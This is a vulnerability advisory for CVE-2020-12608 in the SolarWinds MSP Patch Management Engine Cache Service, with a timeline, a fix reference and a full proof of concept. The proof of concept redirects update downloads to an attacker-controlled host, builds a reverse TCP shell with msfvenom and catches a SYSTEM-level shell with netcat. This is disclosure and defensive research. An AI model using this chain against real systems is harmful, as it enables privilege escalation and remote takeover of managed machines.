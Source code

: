 #### SolarWinds MSP PME Cache Service - Insecure File Permissions / Code Execution

**Author**: Jens Regel, Schneider & Wulf EDV-Beratung GmbH & Co. KG

**CVSSv3**: 8.2 [CVSS:3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H]

**CVE**: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12608

**CWE**: https://cwe.mitre.org/data/definitions/276.html

#### Vulnerable version
SolarWinds MSP PME (Patch Management Engine) before **1.1.15**

#### Timeline
- 2020-04-24 Vulnerability discovered
- 2020-04-27 Send details to SolarWinds PSIRT
- 2020-04-27 SolarWinds confirmed the vulnerability
- 2020-05-05 SolarWinds released PME version 1.1.15
- 2020-05-06 Public disclosure

#### Description

An error with insecure file permissions has occurred in the SolarWinds MSP Cache Service, which is part of the Advanced Monitoring Agent and can lead to code execution. The SolarWinds MSP Cache Service is typically used to get new update definition files and versions for `ThirdPartyPatch.exe` or `SolarWinds MSP Patch Management Engine Setup`. The XML file `CacheService.xml` in `%PROGRAMDATA%\SolarWinds MSP\SolarWinds.MSP.CacheService\config\` is writable by normal users, so that the parameter `SISServerURL` can be changed, which controls the location of the updates. After some analysis, we were able to provide modified XML files (`PMESetup_details.xml` and `ThirdPartyPatch_details.xml`) that point to an executable file with a reverse TCP payload using our controlled `SISServerURL` web server for SolarWinds MSP Cache Service.

#### Proof of Concept (PoC)

As we can see, NTFS change permissions are set to `CacheService.xml` by default. **Any user on the system who is in group users can change the file content. This is especially a big problem on terminal servers or multi-user systems**.

```
PS C:\ProgramData\SolarWinds MSP\SolarWinds.MSP.CacheService\config> icacls .\CacheService.xml
.\CacheService.xml VORDEFINIERT\Benutzer:(I)(M)
                   NT-AUTORITÄT\SYSTEM:(I)(F)
                   VORDEFINIERT\Administratoren:(I)(F)
```

#### 1. Modify CacheService.xml

In the xml file, the parameter `SISServerURL` was adjusted, which now points to a web server controlled by the attacker.

```xml
<?xml version="1.0" encoding="utf-8"?>
<Configuration>
	<CachingEnabled>True</CachingEnabled>
	<ApplianceVersion>1.1.14.2223</ApplianceVersion>
	<CacheLocation>C:\ProgramData\SolarWinds MSP\SolarWinds.MSP.CacheService\cache</CacheLocation>
	<CacheSizeInMB>10240</CacheSizeInMB>
	<SISServerURL>https://evil-attacker.example.org</SISServerURL>
	<LogLevel>5</LogLevel>
	<Proxy></Proxy>
	<ProxyEncrypt>AQAAANCMnd8BFdER(...)</ProxyEncrypt>
	<ProxyCacheService />
	<CacheFilesDeleted></CacheFilesDeleted>
	<CacheDeletedInBytes></CacheDeletedInBytes>
	<HostApplication>RMM</HostApplication>
	<CanBypassProxyCacheService>True</CanBypassProxyCacheService>
	<BypassProxyCacheServiceTimeoutSeconds>1</BypassProxyCacheServiceTimeoutSeconds>
	<ComponentUpdateMinutes>300</ComponentUpdateMinutes>
	<ComponentUpdateDelaySeconds>1</ComponentUpdateDelaySeconds>
</Configuration>
```

#### 2. Payload creation

Generate an executable file, for example using `msfvenom`, that establishes a reverse tcp connection to the attacker and store it on the web server.

`msfvenom -p windows/x64/shell_reverse_tcp lhost=x.x.x.x lport=4444 -f exe > /tmp/solarwinds-shell.exe`

#### 3. Prepare web server

Place the modified xml files (PMESetup_details.xml or ThirdPartyPatch_details.xml) on the web server in the path `/ComponentData/RMM/1/`, generate MD5, SHA1 and SHA256 hashes of the executable, set correct values for `SizeInBytes` and increase the version.

Example of `PMESetup_details.xml`

```xml
<ComponentDetails>
<Name>Patch Management Engine</Name>
<Description>Patch Management Engine</Description>
<MD5Checksum>7a4a78b105a1d750bc5dfe1151fb70e1</MD5Checksum>
<SHA1Checksum>3d9ed6bd44b5cf70a3fed8f511d9bc9273a1feac</SHA1Checksum>
<SHA256Checksum>
80579df2533d54fe9cbc87aed80884f6a97e1ccdd0443ce2bcb815ef59ed3d65
</SHA256Checksum>
<SizeInBytes>7168</SizeInBytes>
<DownloadURL>/ComponentData/RMM/1/solarwinds-shell.exe</DownloadURL>
<FileName>solarwinds-shell.exe</FileName>
<Architecture>x86,x64</Architecture>
<Locale>all</Locale>
<Version>1.1.14.2224</Version>
</ComponentDetails>
```

Example of `ThirdPartyPatch_details.xml`

```xml
<ComponentDetails xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<Name>Third Party Patch</Name>
<Description>
Third Party Patch application for Patch Management Engine RMM v 1 and later
</Description>
<MD5Checksum>7a4a78b105a1d750bc5dfe1151fb70e1</MD5Checksum>
<SHA1Checksum>3d9ed6bd44b5cf70a3fed8f511d9bc9273a1feac</SHA1Checksum>
<SHA256Checksum>
80579df2533d54fe9cbc87aed80884f6a97e1ccdd0443ce2bcb815ef59ed3d65
</SHA256Checksum>
<SizeInBytes>7168</SizeInBytes>
<DownloadURL>/ComponentData/RMM/1/solarwinds-shell.exe</DownloadURL>
<FileName>solarwinds-shell.exe</FileName>
<Architecture>x86,x64</Architecture>
<Locale>all</Locale>
<Version>1.2.1.95</Version>
</ComponentDetails>
```

#### 4. Malicious executable download

After restarting the system or reloading the CacheService.xml, the service connects to the web server controlled by the attacker and downloads the executable file. This is then stored in the path `%PROGRAMDATA%\SolarWinds MSP\SolarWinds.MSP.CacheService\cache\` and `%PROGRAMDATA%\SolarWinds MSP\PME\archives\`.

```
[24/Apr/2020:10:57:01 +0200] "HEAD /ComponentData/RMM/1/solarwinds-shell.exe HTTP/1.1" 200 5307 "-" "-"
[24/Apr/2020:10:57:01 +0200] "GET /ComponentData/RMM/1/solarwinds-shell.exe HTTP/1.1" 200 7585 "-" "-"
```

#### 5. Getting shell

After a certain time the executable file is executed by `SolarWinds MSP RPC Server` service and establishes a connection with the rights of the system user to the attacker.

```
[~]: nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [x.x.x.x] port 4444 [tcp/*] accepted (family 2, sport 49980)
Microsoft Windows [Version 10.0.18363.778]
(c) 2019 Microsoft Corporation. Alle Rechte vorbehalten.

C:\WINDOWS\system32>whoami
whoami
nt-authority\system

C:\WINDOWS\system32>
```

#### Fix
There is a new PME version 1.1.15 which comes with auto-update
- https://success.solarwindsmsp.com/forum-post/X0D51T00007TMk6jSAD/
